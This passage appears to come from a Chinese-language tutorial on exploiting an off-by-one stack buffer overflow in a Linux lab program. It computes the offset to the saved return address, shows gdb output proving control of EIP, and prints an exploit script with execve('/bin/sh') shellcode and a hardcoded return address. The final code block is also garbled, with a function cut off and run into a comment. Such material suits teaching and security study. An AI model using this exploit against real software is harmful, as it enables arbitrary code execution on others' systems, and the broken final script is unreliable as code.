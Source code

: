 +   `0x08048495` - `ret` - 返回到`foo`的指令`0x08048475`
+   `0x08048475` - `leave` - `leave`指令解除此函数的堆栈空间并恢复ebp。

```asm
*** As per our example: ***
leave: mov ebp, esp;        //esp = ebp = 0xbffff200 (As part of unwinding esp is shifted down instead of up!!)
       pop ebp;             //ebp = 0x41414141; esp = 0xbffff204
```

+   `0x08048476` - `ret` - 返回到位于ESP（`0xbffff204`）的指令。现在，ESP指向攻击者控制的缓冲区，因此攻击者可以返回到任何要实现任意代码执行的位置。

现在让我们回到我们原始的测试，找到从目标缓冲区`buf`到返回地址的偏移量。如我们的堆栈布局图所示，`buf`位于`0xbffff158`，在CPU执行后，我们知道目标缓冲区`buf`中的返回地址位于`0xbffff204`。因此，从`buf`到返回地址的偏移量为`0xbffff204 - 0xbffff158 = 0xac`。因此，用户输入的形式`"A"* 172 +"B"* 4 +"A"* 80`，用`BBBB`覆盖EIP。

```
$ cat exp_tst.py 
#exp_tst.py
#!/usr/bin/env python
import struct
from subprocess import call

buf = "A" * 172
buf += "B" * 4
buf += "A" * 80

print "Calling vulnerable program"
call(["./vuln", buf])

$ python exp_tst.py 
Calling vulnerable program
$ sudo gdb -q vuln 
Reading symbols from /home/sploitfun/lsploits/new/obo/stack/vuln...(no debugging symbols found)...done.
(gdb) core-file core
[New LWP 4055]
warning: Can't read pathname for load map: Input/output error.
Core was generated by `./vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'.
Program terminated with signal 11, Segmentation fault.
#0 0x42424242 in ?? ()
(gdb) p/x $eip
$1 = 0x42424242
(gdb)
```

以上输出显示攻击者可以控制返回地址。返回地址位于`buf`的偏移量(`0xac`)处。有了这些信息，我们可以编写一个漏洞利用程序来实现任意的代码执行。

利用代码:

```py
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call

#Spawn a shell. 
#execve(/bin/sh) Size- 28 bytes.
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x90\x90\x90"

ret_addr = 0xbffff218

#endianess conversion
def conv(num):
 return struct.pack("<I",numturn Address + NOP's + Shellcode + Junk
buf = "A" * 172
```
